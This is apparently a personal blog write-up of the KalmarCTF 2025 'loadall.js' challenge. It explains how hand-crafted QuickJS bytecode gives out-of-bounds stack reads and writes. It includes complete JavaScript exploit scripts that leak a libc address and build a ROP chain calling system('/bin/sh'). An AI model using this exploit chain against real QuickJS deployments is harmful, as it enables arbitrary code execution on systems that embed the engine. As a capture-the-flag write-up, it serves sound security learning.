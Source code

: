 ```yaml
---
title: "kalmar 2025: loadall.js"
description: "My brief solution for the loadall.js challenge"
summary: "kalmar 2025: loadall.js"
categories: ["Writeup"]
tags: ["Pwn"]
#externalUrl: ""
date: 2025-3-10
draft: false
authors:
  - Shin24
---
```


It's been sometime since I last wrote something on my blog, despite playing lots of CTF, I hardly have time to write. Last sunday, I play kalmar CTF with idek, but because I also play pico so I didn't have time to look on kalmar, before the CTF ends I decided to try some pwn and I was able to solve 1 pwn, this post will be my brief solution for `loadall.js`, a quickJS JavaScript Engine exploit challenge

## Summary

So in this challenge we are given the ability to run QuickJS bytecode directly via a custom function named `loadall`

![image](https://github.com/user-attachments/assets/9a4a3179-3533-4a72-9790-3233ca450095)

The problem is straightforward, when we write JS code, opcodes are emitted by the engine, everything work as expected, but when you are given the power to emit arbitrary bytecodes of your choosing, you may break the way the engine works. With that in mind, I look through the opcode handlers, and pretty quickly found some OOB read/write on stack via `get_loc`, `set_loc`, `get_arg`, `set_arg`, and then you can also incre/decrese the stack pointer `sp` so much that it overwrite all the stack frame.

![image](https://github.com/user-attachments/assets/2afadb21-886b-4750-868a-1aaf6f91f6a1)

so at this point I just have to figure out a way to escalate all of this to control IP.

## QuickJS internal

So each stack entry is a `JSValue`, the `+0` member is the value, the `+8` member is the tag, tag is the indication of what type that `JSValue` is, this is important for the exploitation process, keep it in mind. 

![image](https://github.com/user-attachments/assets/6363c512-90fd-484a-9fa1-df9cd8b26ef6)

## Exploitation

You may think that we have OOB read, so just look for some stack ptr to leak libc/heap or something, well it doesn't work like that. If we want to leak something, we will align the `u` of `JSValue` with that ptr, but then we have to ensure that the tag (a.k.a the next `+8`) is a valid tag, we can search for some places that `u` is a ptr and tag is a null so that QuickJS treat it as a number, but most numbers in QuickJS is 32 bit, so we won't be able to leak the full address, and there're nearly no place that has a valid float64 tag (`0x7`). So the idea is that because we have several OOB, we can use the `set_loc` OOB to overwrite the address of `arg_buf` to an stack address that is not 16-bit aligned, then use it to write the tag to float, and then use the OOB read in `get_loc` to read the value

![image](https://github.com/user-attachments/assets/b1d8cfab-d9ef-40a6-936f-847ab7e6c3ce)

So in above, for example the stack ptr `0x7ffd03c31020` is 16-bit aligned, but hold a pointer that is not 16-bit aligned, we can read from that location and write it to `var_buf`, we can now write to any location that is not 16-bit aligned with `set_arg`. 

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
```

The rest is simple, just use those primitives to overwrite the return address and ROP

```js
OP_push_empty_string = 195;
version = 67
OP_dup = 17;
OP_import = 53;
OP_push_const = 2;
OP_push_i32 = 1;
OP_return = 40;
OP_object = 11;
OP_throw = 47;
OP_array_from = 38;
OP_get_loc = 88;
OP_shr = 163;
OP_set_loc = 90;
OP_push_7 = 190;
OP_get_arg = 91;
OP_set_arg = 93;

libc = loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 14/*byte_code_len*/, 0/*local_count*/, OP_push_7, OP_set_loc, 126, 0, OP_get_loc, 115, 0, OP_set_loc, 149, 0, OP_get_arg, 11, 0, OP_return, 1/*TAG_NULL*/, 1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)

buf = new ArrayBuffer(64);
arr = new Float64Array(buf);
arr_2 = new BigInt64Array(buf);
arr[0] = libc
libc = arr_2[0] - 1911904n
print(libc)
system = libc + 312464n
pop_rdi = libc + 0x00000000000277e5n
sh = libc + 0x196031n

loadall((new Uint8Array([67, 9, 18, 117, 115, 101, 32, 115, 116, 114, 105, 112, 18, 99, 104, 101, 99, 107, 70, 108, 97, 103, 2, 95, 6, 109, 97, 112, 24, 102, 114, 111, 109, 67, 104, 97, 114, 67, 111, 100, 101, 20, 99, 104, 97, 114, 67, 111, 100, 101, 65, 116, 10, 112, 114, 105, 110, 116, 22, 87, 114, 111, 110, 103, 32, 102, 108, 97, 103, 33, 22, 82, 105, 103, 104, 116, 32, 102, 108, 97, 103, 33, 12 /*BC_TAG_FUNCTION_BYTECODE*/, 0, 2, 2, 162, 1, 0 /*arg count*/, 2/*var_count*/, 0/*defined_arg_count*/, 100/*stack_size*/, 0/*closure_var_count*/, 10/*cpool_count*/, 38/*byte_code_len*/, 0/*local_count*/, OP_get_loc, 20, 0, OP_set_loc, 149, 0, OP_push_const, 0, 0, 0, 0, OP_set_arg, 134, 0, OP_push_const, 1, 0, 0, 0, OP_set_loc, 160, 0, OP_push_const, 3, 0, 0, 0, OP_set_arg, 135, 0, OP_push_const, 2, 0, 0, 0, OP_set_loc, 161, 0, 6/*BC_TAG_FLOAT64*/, parseInt(pop_rdi & 0xffn), parseInt((pop_rdi >> 8n) & 0xffn), parseInt((pop_rdi >> 16n) & 0xffn), parseInt((pop_rdi >> 24n) & 0xffn), parseInt((pop_rdi >> 32n) & 0xffn), parseInt((pop_rdi >> 40n) & 0xffn), parseInt((pop_rdi >> 48n) & 0xffn), parseInt((pop_rdi >> 56n) & 0xffn), 6/*BC_TAG_FLOAT64*/, parseInt(sh & 0xffn), parseInt((sh >> 8n) & 0xffn), parseInt((sh >> 16n) & 0xffn), parseInt((sh >> 24n) & 0xffn), parseInt((sh >> 32n) & 0xffn), parseInt((sh >> 40n) & 0xffn), parseInt((sh >> 48n) & 0xffn), parseInt((sh >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt(system & 0xffn), parseInt((system >> 8n) & 0xffn), parseInt((system >> 16n) & 0xffn), parseInt((system >> 24n) & 0xffn), parseInt((system >> 32n) & 0xffn), parseInt((system >> 40n) & 0xffn), parseInt((system >> 48n) & 0xffn), parseInt((system >> 56n) & 0xffn),6/*BC_TAG_FLOAT64*/, parseInt((pop_rdi + 1n) & 0xffn), parseInt(((pop_rdi + 1n) >> 8n) & 0xffn), parseInt(((pop_rdi + 1n) >> 16n) & 0xffn), parseInt(((pop_rdi + 1n) >> 24n) & 0xffn), parseInt(((pop_rdi + 1n) >> 32n) & 0xffn), parseInt(((pop_rdi + 1n) >> 40n) & 0xffn), parseInt(((pop_rdi + 1n) >> 48n) & 0xffn), parseInt(((pop_rdi + 1n) >> 56n) & 0xffn),1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,1/*TAG_NULL*/,227, 0, 0, 0])).buffer)
//EOF
```

to store that addresses, I stored them in `b->cpool` and load them using `OP_push_const` 

## Final thoughts 

The challenge is not hard, only if we do it this way, according to the challenge's author, the intended solution is more complex

![image](https://github.com/user-attachments/assets/4cab211e-c11a-46b1-a710-9158359030df)

About the heap part, I also tried it that way, by allocating more constant on `b->cpool` you can control where the chunk will land on heap, it maybe more interesting to do a heap exploitation than a stack-based exploit I think. Thank you kalmar for bringing an enjoyable event.
